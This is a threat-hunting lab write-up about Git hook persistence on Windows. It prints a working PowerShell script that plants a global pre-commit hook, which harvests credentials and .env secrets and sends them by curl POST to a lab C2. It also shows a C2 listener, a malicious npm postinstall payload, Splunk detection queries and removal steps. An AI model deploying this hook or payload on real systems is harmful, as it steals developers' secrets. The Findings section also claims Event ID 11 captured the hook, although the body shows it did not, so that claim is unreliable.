# H003 - Git Hook Global Persistence

## Hypothesis

An attacker who has gained code execution on a developer's machine may plant a malicious pre-commit hook and configure Git globally to use it, causing the hook to execute silently every time the developer commits code across any of their repositories.

This technique involves three key actions:

- Creating a centrally hosted hooks directory outside of any individual repository
- Writing a malicious pre-commit script to that directory
- Modifying the global Git configuration to redirect all repositories to use the attacker-controlled hooks path via `core.hooksPath`


## MITRE ATT&CK Mapping

| Technique ID | Technique |
|---|---|
| T1546 | Event Triggered Execution |

This hunt maps to MITRE ATT&CK `T1546` because the pre-commit hook executes automatically in response to a Git event (a commit), making it a form of event-triggered execution used for persistence.

- https://attack.mitre.org/techniques/T1546/

> **Note:** There is currently no dedicated sub-technique in ATT&CK for Git hook abuse, and no Atomic Red Team test exists for this technique. This represents a gap in publicly available detection coverage, which makes it a worthwhile hunt to document.


## Test Method

### Lab Environment

| Machine | OS | IP | Role |
|---|---|---|---|
| Kali Linux | Kali Linux | 192.168.37.132 | Attacker, however in this context, it was simply used to create the script to be hosted on github and act as a c2 |
| Victim | Windows 11 | 192.168.37.130 | Victim (Git + Sysmon) |
| Splunk | Ubuntu Server | 192.168.37.129 | SIEM |

### Attack Simulation

The attack was simulated manually as no Atomic Red Team test exists for this technique.

**Step 1 — Attacker setup**

A malicious PowerShell script (`setup.ps1`) was hosted on a GitHub Gist. This script:
- Creates `C:\ProgramData\.git-hooks\` as a centrally controlled hooks directory outside of any individual repository
- Writes a malicious `pre-commit` hook file to that directory containing logic to collect system information, scan for credential files on the victim's Desktop, Documents and Downloads, extract matching content, and exfiltrate everything via HTTP POST to the attacker's C2
- Sets `core.hooksPath` in the victim's global Git config to point to the attacker-controlled directory, ensuring the hook fires silently on every future commit across all of the victim's repositories
- Prints `Assessment complete.` and exits, the victim sees nothing suspicious and the script never touches disk.

**Setup.ps1 Script**
```
$hookDir = "C:\ProgramData\.git-hooks"
New-Item -ItemType Directory -Path $hookDir -Force | Out-Null

$hook = @'
#!/bin/sh

# ── System Info ──────────────────────────────
HOST=$(hostname)
USER=$(whoami)
REPO=$(git rev-parse --show-toplevel 2>/dev/null)
BRANCH=$(git branch --show-current 2>/dev/null)
GIT_USER=$(git config user.email 2>/dev/null)

# ── Credential File Search ───────────────────
CRED_FILES=$(grep -rli \
  -E "password|api_key|secret|token|aws_access|DB_PASSWORD|STRIPE|GITHUB_TOKEN" \
  "$USERPROFILE/Desktop" \
  "$USERPROFILE/Documents" \
  "$USERPROFILE/Downloads" \
  2>/dev/null | head -10)

# ── Pull Content from Found Files ────────────
CRED_CONTENT=""
for f in $CRED_FILES; do
  CRED_CONTENT="$CRED_CONTENT
--- $f ---
$(grep -iE "password|api_key|secret|token|aws_access|DB_PASSWORD|STRIPE|GITHUB_TOKEN" "$f" 2>/dev/null | head -10)"
done

# ── ENV File Content ─────────────────────────
ENV_CONTENT=$(find "$USERPROFILE" -name ".env" 2>/dev/null \
  -exec grep -iE "password|key|secret|token" {} \; \
  2>/dev/null | head -20)

# ── Build Payload ────────────────────────────
PAYLOAD="
=== SYSTEM INFO ===
host=$HOST
user=$USER
git_user=$GIT_USER
repo=$REPO
branch=$BRANCH

=== CREDENTIAL FILES FOUND ===
$CRED_CONTENT

=== ENV FILE CONTENTS ===
$ENV_CONTENT
"


# ── Exfil ────────────────────────────────────
echo "$PAYLOAD" | curl -s -X POST http://192.168.37.132:8080/upload \
  --data-binary @- 2>/dev/null
'@

[System.IO.File]::WriteAllText("$hookDir\pre-commit", $hook.Replace("`r`n","`n"))
git config --global core.hooksPath $hookDir
Write-Host "Assessment complete."
```

A fake C2 listener was started on Kali to receive exfiltrated data:

```bash
python3 c2.py
```
```
from http.server import HTTPServer, BaseHTTPRequestHandler
from datetime import datetime

class Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers['Content-Length'])
        data = self.rfile.read(length)
        print(f"\n[{datetime.now()}] *** DATA RECEIVED ***")
        print(data.decode())
        self.send_response(200)
        self.end_headers()

    def log_message(self, format, *args):
        pass

print("[*] Fake C2 listening on 0.0.0.0:8080...")
HTTPServer(('0.0.0.0', 8080), Handler).serve_forever()
```

- `HTTPServer('0.0.0.0', 8080)` binds to all network interfaces on port 8080, accepting connections from any machine on the network
- `do_POST` handles incoming HTTP POST requests — this is the method the pre-commit hook uses to deliver stolen data via `curl`
- `self.headers['Content-Length']` reads the size of the incoming data, then `self.rfile.read(length)` reads the full payload body
- `data.decode()` converts the raw bytes to readable text and prints it to the terminal with a timestamp, displaying the exfiltrated credentials and system information
- `self.send_response(200)` returns an HTTP 200 OK to the victim machine so `curl` exits cleanly with no errors — keeping the hook silent
- `log_message` is overridden to suppress the default HTTP request logs, keeping the terminal output clean and showing only the received data
- `serve_forever()` keeps the server running continuously, ready to receive data from every subsequent commit the victim makes


**Step 2 — Social engineering delivery, User running "Audit script"**

> **Note:** While this test describes a user being socially engineered, resulting in running a powershell command, the same persistence mechanism can be achieved through several other attack vectors that require no direct user interaction beyond normal developer activity.

**Alternative Delivery — Malicious npm Package**

A threat actor could publish a malicious npm package containing a `postinstall` script that plants the hook automatically when a developer runs `npm install`:

```json
{
  "scripts": {
    "postinstall": "powershell -c \"New-Item -Path C:\\ProgramData\\.git-hooks -Force; git config --global core.hooksPath C:\\ProgramData\\.git-hooks\""
  }
}
```

- The developer never runs anything suspicious directly, installing any project dependency that includes or depends on the malicious package is enough to trigger the hook installation silently.

**Why This Matters**

In all cases the end result is identical, `core.hooksPath` is set globally and the pre-commit hook fires on every future commit. The delivery method only affects which event triggers the installation. This makes the technique particularly difficult to attribute, as the hook may be planted long before the first suspicious commit activity is observed in Sysmon.




- As we can see, from the users end, they simply observed a assessment complete output, nothing else. for e.g, this could be made more realistic by providing fake output of checking dependencies.

**Step 3 — Hook triggered**

A Git commit was made in the victim's development project. The pre-commit hook fired silently before the commit completed. Git read the global core.hooksPath setting and executed the local script at C:\ProgramData\.git-hooks\pre-commit, which had been written to disk during the initial IEX delivery.



The hook scanned the victim's Desktop, Documents, and Downloads for files containing credential related keywords, and exfiltrated the findings to the attacker's C2. In this case my Kali linux host. 

**Results**



- For the purpose of this write up only the relevant findings are shown. In practice the hook returned a number of false positives, including DFIR tooling and Sysmon CSV exports on the Desktop which matched on keywords such as `token` and `password` appearing within XML field names and tool documentation. This is intentional from an attacker's perspective,broader regex patterns are preferable to narrow ones, as missing a genuine credential is a worse outcome than reviewing additional noise. In a real intrusion, the attacker would manually review the full output and filter for anything of value, meaning false positives add little friction while increasing the chance of capturing something useful.


# Hunting for Git Hook Persistence with Sysmon

### Event ID 4104 — PowerShell Script Block (Initial Delivery)

Using the same approach from [H001 - Suspicious PowerShell Execution](https://github.com/ADZYYYY/H001-Suspicious-PowerShell-Execution), PowerShell Event ID 4104 captures the script block content processed by the PowerShell engine, even when the script runs in memory via IEX.

```spl
index=powershell earliest=-60m
| rex "<EventID>(?<EventCode>\d+)</EventID>"
| rex "<Data Name='ScriptBlockText'>(?<ScriptBlockText>.*?)</Data>"
| search EventCode=4104
| search ScriptBlockText="*DownloadString*" OR ScriptBlockText="*IEX*" OR ScriptBlockText="*Invoke-Expression*" OR ScriptBlockText="*core.hooksPath*" OR ScriptBlockText="*git-hooks*"
| table _time host EventCode ScriptBlockText
| sort _time
```

- `EventCode=4104` captures PowerShell script block logging events
- `DownloadString` and `IEX` are the key indicators of fileless in-memory delivery
- `core.hooksPath` and `git-hooks` will catch the hook planting commands if they appear in the script block
- `sort _time` orders events chronologically to follow the delivery chain

**Results**



- Here we can obseve the Command ran by the dev at 2026-06-03 03:09:25.696, and the running of git hooks
- The script block captured by Event ID 4104 showed the full content of the malicious PowerShell script executing in memory, including the creation of the `.git-hooks` directory and the `git config --global core.hooksPath` command
- This is the loudest point of the attack, fileless delivery still gets logged here because PowerShell script block logging captures what the engine executes, regardless of how it was delivered
- Another win for PowerShell script block logging :D


### Event ID 11 — File Creation (Hook Planted and gitconfig Modified)

After the script ran in memory, two key files were written to disk. Sysmon Event ID 11 captures file creation and overwrite events, not general file modification events

```spl
index=sysmon EventCode=11 earliest=-60m
| search TargetFilename="*pre-commit*" OR TargetFilename="*.gitconfig*" OR TargetFilename="*git-hooks*"
| table _time host User TargetFilename Image ProcessId
| rename Image as "Process", TargetFilename as "File Created / Modified"
| sort _time
```

- `EventCode=11` filters for file creation events
- `pre-commit` identifies the malicious hook file being written to disk
- `.gitconfig` identifies the global Git configuration being modified
- `git-hooks` catches the directory creation and any files written inside it

**Results**

- No results for the above query, lets investigate why



- Making the query more broad we can clearly see after the malcious powershell command was executed at 03:09:25.696, no surrounding events were observed for file creation of the git-hooks/ pre commit files
- Sysmon Event ID 11 FileCreate monitoring uses `ruledefault="exclude"`, meaning only paths explicitly listed in the Sysmon configuration are monitored. The default configuration did not include `C:\ProgramData\` or `.gitconfig` paths, so the hook file creation and gitconfig modification were not captured by Event ID 11 despite Sysmon being active on the endpoint.
- Now we will correlate with MFT/USN Journal


### MFT/USN Journal — Using forensic artefacts to show the file created/rename events

**Obtaining MFT/USN Journal**



- Using FTK Imager, I simply added my Logical file system as evidence, and navigated to root to find the MFT File, then $extend to find the USL journal. From here I have the option to create a copy, where I can later use tools such as MFTECmd.exe to parse the data.

**Parsing Data**

```
.\MFTECmd.exe -f 'C:\Users\Adam\Desktop\NTFS_Artifacts\$MFT.copy0' --csv 'C:\Users\Adam\Desktop\output' --csvf mft.csv
```
```
.\MFTECmd.exe -f 'C:\Users\Adam\Desktop\NTFS_Artifacts\$J.copy0' --csv 'C:\Users\Adam\Desktop\output' --csvf usn.csv
```


**Viewing in TimeLine Explorer to Find Evidence**

- So in this case, we will focus on the USN Journal, as we are more interested on what happened, rather than the current state of the files on disk, however MFT will provide where the file was located

*USN*





*MFT*





- Here we can observe exactly what we are looking for, so from the powershell events that happened at 03:09 (Splunk configured to London time), we can see directly what happened.

**pre-commit file created**
```
C:\ProgramData\.git-hooks\pre-commit
```
- The pre-commit hook was written to `C:\ProgramData\.git-hooks\` — a location completely outside any individual Git repository
- Legitimate Git hooks live inside `.git\hooks\` within a specific project. A pre-commit file appearing in `ProgramData` is highly suspicious and has no legitimate developer use case

**gitconfig.lock created**
```
C:\Users\Adam\AppData\Local\Programs\Git\etc\gitconfig
```
- This is the system level Git config for Git for Windows installed in the user's AppData, it applies to all of the user's Git operations
- The modification was confirmed via the lock-file-to-rename pattern in the USN journal: `.gitconfig.lock` created → data added → renamed to `.gitconfig`, which is Git's atomic write behaviour


### Event ID 1 — Process Creation (Hook Execution Chain)

When the developer ran `git commit`, the pre-commit hook fired. Sysmon Event ID 1 captures the full process chain, showing `git.exe` spawning `sh.exe`, which then spawned `grep.exe` and `curl.exe`.

```spl
index=sysmon EventCode=1 earliest=-60m
| search (ParentImage="*git.exe" AND Image="*sh.exe") 
    OR (ParentImage="*sh.exe" AND (Image="*grep.exe" OR Image="*find.exe" OR Image="*curl.exe"))
| table _time host User ParentImage Image CommandLine ProcessId ParentProcessId
| rename ParentImage as "Parent Process", Image as "Process", CommandLine as "Command Line"
| sort _time
```

- `ParentImage="*git.exe" AND Image="*sh.exe"` identifies `git.exe` spawning the shell — this alone is not suspicious, but what `sh.exe` does next is
- `ParentImage="*sh.exe"` with `grep.exe`, `find.exe`, or `curl.exe` as children is the red flag — a shell spawned by Git has no legitimate reason to be scanning files or making outbound connections
- All of these binaries (`sh.exe`, `grep.exe`, `find.exe`, `curl.exe`) are bundled with Git for Windows at `C:\Program Files\Git\usr\bin\`

**Results**


The full process chain observed was:

```
git.exe
  └── sh.exe         (executes the pre-commit hook)
        ├── grep.exe (scans files for credential keywords)
        ├── find.exe (searches for .env files)
        └── curl.exe (exfiltrates data via HTTP POST)
```

- `git.exe → sh.exe` is normal Git behaviour and would not alert on its own
- `sh.exe → grep.exe` scanning `Desktop`, `Documents`, and `Downloads` is not normal — no legitimate pre-commit hook would need to search a user's home directories
- `sh.exe → curl.exe` making an outbound `POST` request to a non-developer IP is the strongest signal of exfiltration


### Event ID 3 — Network Connection (Data Exfiltration)

Sysmon Event ID 3 captures outbound network connections. The key signal here is `curl.exe` making a `POST` request with `sh.exe` as the parent process.

```spl
index=sysmon EventCode=3 earliest=-60m
| search (Image="*curl.exe" OR Image="*sh.exe") 
| search ParentImage="*sh.exe" OR ParentImage="*git.exe"
| table _time host User Image ParentImage DestinationIp DestinationPort SourceIp Protocol
| rename Image as "Process", ParentImage as "Parent Process", DestinationIp as "Destination IP", DestinationPort as "Destination Port"
| sort _time
```

- `Image="*curl.exe"` identifies the process making the outbound connection
- `ParentImage="*sh.exe"` confirms it was spawned by the hook shell, not by a user directly
- `DestinationIp` and `DestinationPort` show where the data was sent — in this test, `192.168.37.132:8080`

**Results**


- `curl.exe` was observed making an outbound HTTP POST to `192.168.37.132:8080`, with `sh.exe` as the parent process and `git.exe` as the grandparent
- In a real attack, this destination would be an internet-facing C2 server, potentially hosted on a trusted platform such as a cloud provider or a legitimate-looking domain to blend into normal developer traffic


## Findings

PowerShell Event ID 4104 was the earliest and loudest detection point, capturing the full IEX delivery script in memory before anything was written to disk. This is consistent with findings from H001.

Sysmon Event ID 11 confirmed the persistence mechanism by showing the pre-commit hook being written to `C:\ProgramData\.git-hooks\` and the global gitconfig being modified — both are strong indicators because neither has a legitimate use in normal developer workflows.

Sysmon Event ID 1 revealed the full execution chain when the hook fired, showing `git.exe → sh.exe → grep.exe → curl.exe`. The file scanning and outbound connection activity from a shell spawned by Git is anomalous and would not occur during normal developer activity.

Sysmon Event ID 3 confirmed data exfiltration via an outbound HTTP POST from `curl.exe` parented to `sh.exe` and `git.exe`.

For this hunt, PowerShell Event ID `4104` caught the delivery, Sysmon Event ID `11` caught the persistence being established, Sysmon Event ID `1` caught the hook executing and scanning for credentials, and Sysmon Event ID `3` caught the exfiltration. Together they provide full coverage across the attack chain.

> **Key observation:** Windows Defender did not flag this activity. The technique relies entirely on legitimate binaries — `git.exe`, `sh.exe`, `grep.exe`, `curl.exe` — with no malicious executables dropped. Detection depends on behavioural monitoring via Sysmon, not signature-based AV.


## Removal

To remove the Git hook persistence:

```powershell
# Remove the global hooks path setting
git config --global --unset core.hooksPath

# Remove the hooks directory and pre-commit file
Remove-Item "C:\ProgramData\.git-hooks" -Recurse -Force

# Verify removal
git config --global --list | findstr hook
# Should return nothing
```

To verify the gitconfig is clean, review the file directly:

```powershell
cat "C:\Users\$env:USERNAME\AppData\Local\Programs\Git\etc\gitconfig"
```

Confirm there is no `hooksPath` entry under `[core]`.


## Building Real Detections Around This

Alert when a `pre-commit` file is created outside of a `.git\hooks\` directory, or when `core.hooksPath` is modified in any gitconfig file. Increase severity when `sh.exe` or `curl.exe` spawned by `git.exe` makes outbound network connections.

```spl
index=sysmon earliest=-60m
| eval detection_type=case(
    EventCode=11 AND match(TargetFilename,"(?i)pre-commit") AND NOT match(TargetFilename,"(?i)\\.git\\\\hooks"), "Suspicious pre-commit location",
    EventCode=11 AND match(TargetFilename,"(?i)\\.gitconfig"), "gitconfig modified",
    EventCode=1 AND match(ParentImage,"(?i)sh\\.exe") AND match(Image,"(?i)(grep|find|curl|wget)\\.exe"), "Suspicious child of sh.exe",
    EventCode=3 AND match(Image,"(?i)curl\\.exe") AND match(ParentImage,"(?i)sh\\.exe"), "curl outbound via sh.exe",
    true(), null()
)
| where isnotnull(detection_type)
| eval severity=case(
    detection_type="curl outbound via sh.exe", "High",
    detection_type="Suspicious child of sh.exe", "High",
    detection_type="Suspicious pre-commit location", "Medium",
    detection_type="gitconfig modified", "Medium",
    true(), "Low"
)
| table _time host User EventCode detection_type severity TargetFilename Image ParentImage DestinationIp CommandLine
| rename TargetFilename as "File", Image as "Process", ParentImage as "Parent Process", DestinationIp as "Destination IP", CommandLine as "Command Line"
| sort - severity _time
```

This query correlates across four Sysmon event types to cover the full attack chain. It evaluates each event against known indicators of Git hook abuse and assigns severity based on how close the activity is to confirmed exfiltration. A `pre-commit` file outside of a `.git\hooks\` path or a gitconfig modification are medium severity on their own. A shell spawned by Git making network connections or running file scanning tools is high severity.

**Key parts broken down:**

- `match(TargetFilename,"(?i)pre-commit") AND NOT match(TargetFilename,"(?i)\\.git\\\\hooks")` flags pre-commit files written anywhere except inside a legitimate `.git\hooks\` directory
- `match(TargetFilename,"(?i)\\.gitconfig")` flags any modification to a gitconfig file
- `match(ParentImage,"(?i)sh\\.exe") AND match(Image,"(?i)(grep|find|curl|wget)\\.exe")` catches file scanning or network tools spawned by the Git shell
- `severity` scoring prioritises outbound network activity and suspicious process chains as high, and persistence file drops as medium
- This can be paired with a lookup table to suppress known CI/CD tooling or developer automation that legitimately uses hooks
